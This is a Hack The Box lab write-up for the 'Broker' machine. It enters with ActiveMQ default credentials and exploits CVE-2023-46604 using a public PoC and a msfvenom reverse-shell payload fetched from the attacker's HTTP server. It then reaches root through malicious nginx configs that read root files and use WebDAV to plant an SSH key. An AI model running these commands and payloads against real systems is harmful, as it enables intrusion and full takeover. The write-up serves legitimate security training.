

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Broker

## Summary

[Broker](https://app.hackthebox.com/machines/578) is an <mark style="color:green;">easy-rated</mark> box with a relatively easy foothold leveraging **default credentials** and a **known vulneratiblity**. The privilege escalation path showcases an interesting way of exploiting **excessive binary permissions** along with the **nginx's configuration file** which allows us to gain root access.

<table><thead><tr><th width="90">Step</th><th width="245">Action</th><th>Tool</th><th>Achieved</th></tr></thead><tbody><tr><td>1</td><td>Use of default credentials</td><td><a href="../../../tools/tools/web/creds.md">creds</a></td><td>Web server access</td></tr><tr><td>2</td><td>Application enumeration</td><td>Public PoC*</td><td>Foothold</td></tr><tr><td>3</td><td>User permissions</td><td>LoTL**</td><td>EoP***</td></tr></tbody></table>

_\*Proof of Concept, \*\*Living of The Land (native commands), \*\*\*Elevation of Privileges_

## Recon

Let's start with executing our [Nmap ritual](../../../tools/tools/port-scanners/nmap.md#common-flow).


```bash
$ sudo nmap 10.10.11.243 -T4 -A -p $(cat ports) --min-rate=10000 -oA ./scans/aggresive_port-scan

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
1883/tcp  open  mqtt
|_mqtt-subscribe: Failed to receive control packet from server.
5672/tcp  open  amqp?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie:
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
8161/tcp  open  http       Jetty 9.4.39.v20210325
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
|_http-server-header: Jetty(9.4.39.v20210325)
35171/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
61614/tcp open  http       Jetty 9.4.39.v20210325
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title.
|_http-server-header: Jetty(9.4.39.v20210325)
61616/tcp open  apachemq   ActiveMQ OpenWire transport
 | fingerprint-strings:
 |   NULL:
 |     ActiveMQ
 |     TcpNoDelayEnabled
 |     SizePrefixDisabled
 |     CacheSize
 |     ProviderName
 |     ActiveMQ
 |     StackTraceEnabled
 |     PlatformDetails
 |     Java
 |     CacheEnabled
 |     TightEncodingEnabled
 |     MaxFrameSize
 |     MaxInactivityDuration
 |     MaxInactivityDurationInitalDelay
 |     ProviderVersion
 |_    5.15.15
```


Based on Nmap's output:

* SSH is available, so this might be the entrace to the box.
* A nginx web server, related to [`ActiveMQ`](https://activemq.apache.org/), is listening on port `80`. It returns a `401 Unauthorized` status, which means that it requires authentication.
* A lot of other ports seem to be related to `ActiveMQ`. The default ActiveMQ port (`61616`) also mentions its version: `5.15.15`.

## Foothold

### Default Credentials

One of the first things to do in our [web checklist](../../../tools/tools/web/web-checklist.md) is to check for **default credentials**, and by doing that, we manage to get in. It also allows us to confirm ActiveMQ's version (Figure 1).&#x20;

```bash
$ sudo creds search activemq
+--------------------+----------+----------+
| Product            | username | password |
+--------------------+----------+----------+
| activemq (general) |  admin   |  admin   |
| activemq (general) | <blank>  | <blank>  |
+--------------------+----------+----------+
```

<figure><figcaption><p>Figure 1: Authenticating into ActiveMQ and fingerprinting its version.</p></figcaption></figure>

### Remote Code Execution

Next, we can search for version-specific vulnerabilities. Querying `searchsploit` returns nothing we can use (Figure 2), however, Google does mention an **RCE flaw** ([CVE-2023-46604](https://nvd.nist.gov/vuln/detail/CVE-2023-46604)) (Figure 3).

```bash
searchsploit activemq
```

<figure><figcaption><p>Figure 2: Searching an exploit with searchploit.</p></figcaption></figure>

<figure><figcaption><p>Figure 3: Googling for vulnerabilities.</p></figcaption></figure>

After following the steps outlined on the first [link](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ), we indeed achieve RCE (Figure 4).




```bash
# clone repo
sudo git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ
# move into the directory
cd CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ/
# build the binary
sudo go build
# create the payload
sudo msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.37 LPORT=7331 -f elf -o test.elf
# start an HTTP server
python3 -m http.server 8001
```




<pre class="language-bash"><code class="lang-bash"># start a listener
<strong>nc -lvnp 7331
</strong></code></pre>



```bash
# edit the XML file
sudo nano poc-linux.xml
# execute the exploit
./ActiveMQ-RCE -i 10.10.11.243 -u http://10.10.14.37:8001/poc-linux.xml
```



<figure><figcaption><p>Figure 4: Configuring and executing the exploit.</p></figcaption></figure>

Before doing anything else, let's [stabilize our shell](../../../tools/tools/shells.md#stabilization) and grab our first flag 🚩(Figure 5).



```bash
# spawn bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# send process to the background
# CTRL+Z
# check size
stty size
# disable echo, send I/O straight through, and bring process to foreground
stty raw -echo; fg
# press enter once and set terminal's dimensions
stty rows 51 cols 209
# set TERM variable
export TERM=xterm
```



```bash
# search for the file
find /home -type f -name user.txt 2>/dev/null
# display its contents
cat /home/activemq/user.txt
```



<figure><figcaption><p>Figure 5: Shell stabilization process with Python3.</p></figcaption></figure>

## Privilege Escalation

By checking if the compromised account have any `sudo` privileges (Figure 6), we find out that it can run the `nginx` application as `root` !

```bash
sudo -l
```

<figure><figcaption><p>Figure 6: Checking for elevated privileges.</p></figcaption></figure>

This can be exploited in two ways, either reading or writing files as `root`.&#x20;

### File Read

The first way is the simplest one. All we need to do is to configure the web server to listen to a port of our choice, and since it will run as `root`, we will be able to snatch the `root.txt` flag 🚩 (Figure 7)!



```bash
# move to a writable directory
cd ~
# create a malicious configruation file
activemq@broker:/home/activemq$ nano fileread.conf
# load the configuration file
sudo /usr/sbin/nginx -c /home/activemq/fileread.conf
# check that the port is listening
netstat -ntl | grep 9000
# snatch the flag
curl localhost:9000/root/root.txt
```




```bash
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 9000;
        root /;
        autoindex on;
    }
}
```




<figure><figcaption><p>Figure 7: Loading a new nginx configuration and snatching the root flag. </p></figcaption></figure>

### File Write

We can use the [ngx\_http\_dav\_module](https://nginx.org/en/docs/http/ngx\_http\_dav\_module.html) extension that allows us to upload files to the box as `root` . We can leverage this by writing our public SSH key (located within the `~/.ssh/` directory) to the root's authorized SSH keys, and then SSH into the box as `root` from our attackhost (Figure 8).




```bash
# create the malicious configuration file
nano filewrite.conf
# load configuration to the server
sudo /usr/sbin/nginx -c ~/filewrite.conf
# check that the port is listening
netstat -ntl | grep 9002
# write our public SSH key to the root's authorized SSH keys
curl -X PUT localhost:9002/root/.ssh/authorized_keys -d 'ssh-ed2<REDACTED>92m kali@CSpanias'
```





```bash
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 9002;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
```




<figure><figcaption><p>Figure 8: Writing our public SSH key to the root's authorized SSH keys.</p></figcaption></figure>

We can now SSH into the machine as `root` and snatch the `root.txt` flag 🚩 (Figure 9).

```bash
# SSH as root using key authentication
ssh -i ~/.ssh/id_ed25519 root@10.10.11.243
# snatch the flag
cat ~/root.txt
```

<figure><figcaption><p>Figure 9: SSHing as root and snatching the flag!</p></figcaption></figure>
